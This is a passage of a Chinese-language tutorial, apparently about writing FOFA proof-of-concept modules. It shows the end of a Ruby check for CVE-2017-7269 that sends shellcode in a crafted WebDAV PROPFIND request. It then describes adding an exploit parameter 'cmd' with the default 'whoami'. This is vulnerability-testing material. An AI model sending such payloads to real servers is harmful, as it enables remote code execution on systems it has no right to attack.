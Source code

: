   buf1 << shellcode
  
  
  Socket.tcp(hostinfo.host, hostinfo.port,connect_timeout:5) {|sock|
    sock.puts("PROPFIND / HTTP/1.1\r\nHost: localhost\r\nContent-Length: 0\r\n#{buf1}>\r\n\r\n")
    res = sock.recv(1024)
    if res.include?"HHIT CVE-2017-7269 Success"
      return TRUE
    end
    sock.close_write
  }
  return FALSE
end
	</code>
</pre>
## FOFA PoC的利用模块
``思路：点击验证框，勾选漏洞验证，定义要接受的参数的名称、值。然后在exploit模块接受命令和参数利用。`` 
![](images/image10.png)
勾选漏洞验证后，添加完参数，会在FOFA PoC 的get_info函数生成以下json字段，对应我们填写的参数名称和值。
<pre>
	<code>
      "HasExp": true,
      "ExpParams": [
            {
                  "name": "cmd",
                  "type": "textarea",
                  "value": "whoami"
            }
      ]
	</code>
</pre>
